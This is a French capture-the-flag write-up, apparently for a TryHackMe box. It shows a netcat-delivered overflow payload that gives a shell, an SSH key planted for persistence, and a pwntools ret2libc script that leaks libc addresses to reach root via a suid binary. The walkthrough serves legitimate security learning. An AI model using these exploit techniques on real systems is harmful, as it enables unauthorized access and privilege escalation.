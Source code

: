 ```
(python -c "print(b'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaG\x06@\x00\x00\x00\x00\x00')"; cat)|nc 172.17.0.1 4444
Exploit this binary to get on the box!
What do you have for me?
id
uid=1000(zeeshan) gid=1000(zeeshan) groups=1000(zeeshan),27(sudo)
ls
ret
user.txt
cat user.txt
THM{xxxxxxxxxxxxxxxxxxxxx}
```
On a pu pivoter sur une autre machine, et avoir le flag suivant. C'est bien.

## Etape 6 : binaire /exploit_me (local)
Avant de continuer, pour éviter de rebondir de machine en machine, on va mettre notre clef ssh dans les authorized_keys de zeeshan.

Zeeshan a les droits sudo sur tout... mais avec password - sauf sur un binaire assez explicite, /exploit_me en root - et de toutes les façons exploit_me appartient à root, avec suid, donc bon...
On va récupérer exploit_me et exploiter 😝 

Pas de fonction cachée, mais dynamically linked, on va pouvoir exploiter la libc.
1. On extrait les addresses de gets et de puts sur la GOT (une seule suffit en vrai)
2. On fait à chaque fois un appel à puts pour sortir leurs addresses à l'écran
3. On reboucle sur main
4. Grace à nos deux adresses, on peut calculer l'offset de la libc
5. Et donc enfin, lancer un system("/bin/sh")

En local, ça marche bien.
```
#!/usr/bin/python
from pwn import *

elf = context.binary = ELF("./exploit_me", checksec = False)
libc = elf.libc

p = process("./exploit_me")

prefix = b"a" * 40
pop_rdi = p64(next(elf.search(asm("pop rdi; ret"))))
go_gets = p64(elf.got.gets)
go_puts = p64(elf.got.puts)
fn_puts = p64(elf.plt.puts)
fn_main = p64(elf.symbols.main)

# Premier payload : on modifie l'adresse de retour pour appeler un "pop rdi; ret"
# Puis on a l'adresse à poper : l'adresse de gets en mémoire
# Puis on a l'adresse du "ret" de notre gadget : puts - pour afficher l'adresse de gets
# Puis on a l'adresse appelée _après_ le puts : on rerentre dans main
payload = (prefix + pop_rdi + go_gets + fn_puts +
   pop_rdi + go_puts + fn_puts + 
   fn_main)

p.clean()
p.sendline(payload)

# On récupère les adresses pour gets et pour puts - ça permet d'aller voir sur https://libc.rip/ quelle est la version de libc
# Celle qu'on a en local est suffisante pour faire fonctionner l'exploit en local, mais en remote la lib n'est pas la meme
gets_addr = u64(p.recvline().strip().ljust(8, b'\x00'))
puts_addr = u64(p.recvline().strip().ljust(8, b'\x00'))
```